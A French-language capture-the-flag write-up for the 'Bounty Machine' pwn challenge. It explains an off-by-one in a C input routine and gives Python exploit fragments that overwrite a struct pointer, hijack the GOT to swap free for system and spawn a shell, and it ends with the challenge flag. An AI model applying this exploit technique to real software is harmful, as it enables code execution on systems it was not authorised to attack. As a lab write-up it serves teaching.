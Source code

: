 # Writeup pour `Bounty Machine`

Auteur : *Pwnsard*  
Difficulté : *Facile*

### Notions principales :
- Off by one
- Global offset table

### Protections :

```
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable	FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   RW-RUNPATH   55 Symbols	  No	0		1		data/chall
```

### Principe

On a une structure stockée sur la bss, que l'on peut éditer autant de fois qu'on le désire :

```C
struct rocket {
    long price;
    char name[0x10];
    char* description;
};
```

La faille réside dans la fonction take_input (horrible je vous l'accorde) :
```C
void take_input(char *buf, size_t len) {
    char c = -1;
    int i = 0;
    while (i <= len && c != '\n') {
        c = getchar();
        buf[i] = c;
        i++;
    }
    buf[i] = 0;
}
```
En effet, on a un off-by-one, c'est à dire que l'on peut écrire un caractère de plus que la taille du buffer. Sachant que `edit_rocket_name` est faite pour écrire autant que la longueur du nom actuellement stocké, on peut dépasser d'un caractère à chaque renommage de la fusée, et ainsi aller réécrire le pointeur `description`, ce qui nous donne un arbitrary read/write.  
Dans ma solution, on peut réécrire le pointeur comme cela : 

```python
def store_value_in_description(value: bytes):
    for i in range(9):
        edit_rocket_name(b"A" * 0x10 + b"B" * i)

    edit_rocket_name(b"A" * 0x10 + value)
```
On peut donc leak la libc au travers de la got (le PIE est désactivé). Puis réécrire la got afin de remplacer l'adresse de `free` par celle de `system`. 

```python
# Overwrite got entry of the free function
store_value_in_description(p64(0x405000))

# We have to reproduce the got entirely, else our new line corrupts parts of the got which causes a crash
got_payload = p64(libc.symbols['system'])
got_payload += p64(libc.symbols['puts'])
got_payload += p64(libc.symbols['strlen'])
got_payload += p64(libc.symbols['printf'])
got_payload += p64(libc.symbols['getchar'])
got_payload += p64(libc.symbols['malloc'])
got_payload += p64(libc.symbols['setvbuf'])
got_payload += p64(libc.symbols['__isoc99_scanf'])
edit_rocket_description(got_payload)
```

En éditant la description pour qu'elle contienne un pointeur vers /bin/sh (qui pointe quelque part dans la libc), il ne reste plus qu'à quitter le programme pour obtenir un shell !

```python
# Description now points to /bin/sh
bin_sh_addr = libc.address + 0x1b1ece
store_value_in_description(p64(bin_sh_addr))

# When freeing the /bin/sh rocket we now get a shell !
free_rocket()
```

### Script de résolution :

Voir `solve.py`

### Flag : 

`404CTF{CEnTR3_5P4t!aL_70U1oU$3_ma74B!4u}`